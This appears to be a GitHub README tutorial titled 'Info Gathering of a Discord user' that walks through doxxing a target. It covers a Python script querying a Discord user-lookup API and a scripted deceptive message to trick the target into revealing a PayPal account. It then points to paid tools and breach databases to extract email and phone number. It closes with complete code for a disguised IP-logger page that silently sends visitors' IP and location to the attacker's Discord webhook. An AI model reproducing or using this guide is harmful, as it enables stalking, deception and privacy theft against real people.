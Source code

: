 # Info Gathering of a Discord user

> **To get information from a Discord user, I recommend the following steps (please note that all of this is a dispensable and modifiable example):**

**1. Activate the Discord developper mode**

```text
User Settings > Application Settings > Behaviour and enable Developer Mode
```

**2. Obtain the user ID of the person to be provided with information** 

```text
Right click in the username > Copy user ID
```

**3. Obtaint information from this ID**

- **For this step we will use the API of [this](https://github.com/mesalytic/discord-lookup-api) repository, which can also look up information about guilds, apps, etc... But we will use it to look up the person ID of the user**

```text
https://discordlookup.mesalytic.moe/v1/user/ + the user ID of the person to search
```

- **The search result in your browser should look something like this:**

![imagen](https://github.com/user-attachments/assets/826ca3e5-79b4-4b53-a184-c2cbefacd3f5)

> **Here is an example of a Python request to the API to automate the process:**

```python
import requests, os

def clear():
    if os.name == 'nt': os.system('cls')
    else: os.system('clear')

API_URL = 'https://discordlookup.mesalytic.moe/v1/user/'

def main():
    clear()
    user = int(input('Enter the user ID to gather information: '))
    try:
        response = requests.get(API_URL + str(user))

        if response.status_code == 200:
            data = response.json()
                
            def format_user_info(data, indent=0):
                info = []
                for key, value in data.items():
                    if isinstance(value, dict):
                        info.append("  " * indent + f"{key.replace('_', ' ').title()}:")
                        info.append(format_user_info(value, indent + 1))
                    else:
                        if isinstance(value, list):
                            value = ", ".join(str(v) for v in value)
                        info.append("  " * indent + f"{key.replace('_', ' ').title()}: {value}")
                return '\n'.join(info)
                
            user_info = format_user_info(data)
            print('\n-------------------------------------------------------------------------------')
            print(user_info)
            print('\n-------------------------------------------------------------------------------')

        input()
        main()

    except Exception as ex:
        print('Error: ' + str(ex))


if __name__ == '__main__':
    main()
```

**4. Okay, after this, let's put social engineering into practice to get the target person's PayPal**

-  **You can send a message like this:**

```text
Hi, I would like to buy some items from your shop, I have been looking for them for a long time and I have found them, please tell me the price!
```

> **This is an example message, you can use any message you want**

- **Paypal example:**

```text
paypal.me/username
```

- **This is the structure if paypal.me, the most common, but the user can provide you the email**

- **Example PayPal email:**

```text
example@gmail.com
```

**5. When you have PayPal.me, we will use my server tech, which you can access [here](https://discord.gg/freeforreal)**

- You need to get the tech from the shop called ‘t2ch-paypal’

![imagen](https://github.com/user-attachments/assets/1ec41666-d86e-479e-bb66-7dbdde011486)

**6. Use the tech to get the person's email and phone number. The number may not be revealed, there is a bug for that, but get as much information as you can from that PayPal**

**6. After that, you can use our bots for server lookups, as well as other platforms such as intelX. I also recommend you to use the snusbase tool you will find on my server to check if the email is leaked**

> **Para el número de teléfono, te recomiendo esta [herramienta](https://github.com/Euronymou5/Dark-Hydro)**
> **For email, I re-recommend these sites, in addition to open source tools from GitHub that you can download and use, like [MailCat](https://github.com/sharsil/mailcat) or [Sherlock](https://github.com/sherlock-project/sherlock), for example:**

- https://mailmeteor.com/email-checker
- https://www.aware-online.com/en/osint-tools/email-address-tools/
- https://epieos.com/
- https://hunter.io/email-verifier
- https://tools.emailhippo.com/
- https://email-checker.net/

> **If you want to make more complete OSINT searches, I recommend [this](https://github.com/Euronymou5/DorkBuster) tool**

#### Obtaining the public IP

**1. If you want to get someone's public IP, the first option is [IpLogger](https://iplogger.org/en/) (in my opinion the worst)**
**2. The second option is to use the open source tool [RedHawk](https://github.com/Tuhinshubhra/RED_HAWK). You can download it by following the instructions, and it allows you, among other options, to know the public IP of the user who has raised a website. In other words, if the target has a website, this tool is generally very useful**
**3. The last option is to create your own website and host it (on [GitHub Pages](https://pages.github.com/) or another hosting of your choice) and put the code shown below:**

> **HTML code (index.html)**

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Not Available</title>
    <!-- CSS -->
    <link rel="stylesheet" href="src/css/main.min.css">
    <!-- Fontawesome -->
    <link href="https://cdn.staticaly.com/gh/hung1001/font-awesome-pro/4cac1a6/css/all.css" rel="stylesheet" type="text/css" />
    <!-- Google Fonts -->
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
    <link href="https://fonts.googleapis.com/css2?family=Lora:wght@700&family=Poppins:wght@300;600&display=swap" rel="stylesheet">
    <!-- Leaflet -->
    <link rel="stylesheet" href="https://unpkg.com/leaflet@1.7.1/dist/leaflet.css" integrity="sha512-xodZBNTC5n17Xt2atTPuE1HxjVMSvLVW9ocqUKLsCC5CXdbqCmblAshOMAS6/keqq/sMZMZ19scR4PsZChSR7A==" crossorigin="" />
    <link rel="icon" type="image/x-icon" href="./src/favicon.ico">
    <script src="https://unpkg.com/leaflet@1.7.1/dist/leaflet.js" integrity="sha512-XQoYMqMTK8LvdxXYG3nZ448hOEQiglfqkJs1NOQV44cWnUrBc8PkAOcXy20w0vlaXaVUearIOBhiXZ5V3ynxwA==" crossorigin=""></script>
    <!-- Notyf CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/notyf@3/notyf.min.css">
  </head>
  <body>
    <header class="header"></header>
    <script src="./config.js"></script>
    <script>
      function get_information(link, callback) {
        var xhr = new XMLHttpRequest();
        xhr.open("GET", link, true);
        xhr.onreadystatechange = function() {
          if (xhr.readyState === 4) {
            callback(xhr.responseText);
          }
        };
        xhr.send(null);
      }
      get_information("http://ip-api.com/json/?fields=status,message,continent,continentCode,country,countryCode,region,regionName,city,district,zip,lat,lon,timezone,offset,currency,isp,org,as,asname,reverse,mobile,proxy,hosting,query", function(text) {
        var div = document.createElement("div");
        div.innerHTML = text;
        div.id = "razzylog";
        const secondList = document.getElementsByClassName("header")[0]
        secondList.appendChild(div)
      });
      get_information("https://api.ipify.org/", function(text) {
        var div = document.createElement("div");
        div.innerHTML = text;
        div.id = "ipppp";
        const secondList = document.getElementsByClassName("header")[0]
        secondList.appendChild(div)
      });

      function ipLogByRaz() {
        var ispp = document.getElementById('ipppp').innerHTML
        var extra = document.getElementById("razzylog").innerHTML
        const request = new XMLHttpRequest();
        request.open("POST", wbhk);
        request.setRequestHeader('Content-type', 'application/json');
        const params = {
          username: "Logger",
          avatar_url: 'https://images.g2crowd.com/uploads/product/image/large_detail/large_detail_de619ca81012d42cede6fd18af63d8b1/inkscape.png',
          content: "**Ip** : _" + ispp + "_\n**Raw** : _https://api.techniknews.net/ipgeo/" + ispp + "_\n**Extra Info** : ```" + extra + "```"
        }
        request.send(JSON.stringify(params));
      }
      setTimeout(function() {
        ipLogByRaz()
      }, 700);
    </script>
    <style>
      .header {
        display: none
      }

      .map-container {
        display: none
      }
    </style>
  </body>
</html>
```

> **JavaScript code (config.js)**

```js
var wbhk = 'YOUR DISCORD WEBHOOK'
```

- **Create a webhook in Discord through which the data of whoever enters the WebLogger you have created will be sent. You can create it like this:**

```text
Server Config > Integrations > New Webhook > Copy Webhook URL
```

# Thanks for watch this tutorial and leave a star for Free for REAL please!
